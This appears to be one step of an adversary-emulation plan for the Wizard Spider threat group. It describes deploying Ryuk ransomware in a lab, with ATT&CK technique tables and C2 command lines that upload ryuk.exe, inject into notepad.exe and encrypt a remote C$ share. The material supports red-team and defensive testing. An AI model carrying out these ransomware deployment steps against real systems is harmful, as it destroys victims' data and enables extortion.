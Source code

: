 | TTP | Notes |
| -------- | ------- |
| T1021.002   | WizardSpider mounts the C$ share of a lateral host |
| T1489  | WizardSpider stops services and processes|
| T1222.001   | WizardSpider deletes access-based restrictions on files and directories. |
| T1562.001  | WizardSpider kills services related to AV engines |
| T1490 | WizardSpider deletes volume shadow copies. |

## Step 10 - Ryuk Encryption for Impact

In our final step, Wizard Spider uploads and executes Ryuk. Ryuk is uploaded using Jelly, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.

Ryuk will then and inject its own executable into a remote process,notepad.exe, via `WriteProcessMemory` and `CreateRemoteThread` WinAPI calls.

From the remote process, Ryuk will encrypt files on wizard/10.0.0.4's C:\Users\Public directory (recursive).

Next, Ryuk encrypts files on Toto/10.0.0.8 at \\C$\Users\Public (mounted on wizard as Z:).

Ryuk uses a symmetric key algorithm, AES256 to encrypt files.

Note that the symmetric key is itself encrypted with RSA2048.

---

### ☣️ Procedures


```bash
jelly download path/to/ryuk.exe C:\Users\Public\ryuk.exe
```

```bash
jelly execute C:\Windows\System32\notepad.exe
```

```bash
jelly execute C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe
```

To confirm that encryption worked, execute the following in CMD:

```bash
# confirm files are encrypted (local)
jelly execute type C:\Users\Public\Documents\Whitepaper_ekFUNt.rtf

# confirm encryption (remote)
jelly execute type \\toto\C$\Users\Public\Documents\Whitepaper_ekFUNt.rtf
```
| TTP | Notes |
| -------- | ------- |
|  T1134 | WizardSpider adjusts its token privileges to have the SeDebugPrivilege.|
| T1057  | WizardSpider uses CreateToolhelp32Snapshot to enumerate all running processes.|
| T1055.002   | WizardSpider injects remote processes to encrypt files using a combination of VirtualAlloc, WriteProcessMemory, and CreateRemoteThread.|
| T1486  | WizardSpider uses symmetric (AES) and asymmetric (RSA) encryption to encrypt files. Files have been encrypted with their own AES key and given a file extension of .RYK. Encrypted directories have had a ransom note of RyukReadMe.txt written to the directory.|
| T1021.002   | WizardSpider encrypts the C$ network share.|
|  T1016 | WizardSpider uses GetIpNetTable in attempt to identify all mounted drives and hosts that have Address Resolution Protocol (ARP) entries.|
| 	T1083 |	WizardSpider enumerates files and folders on all mounted drives|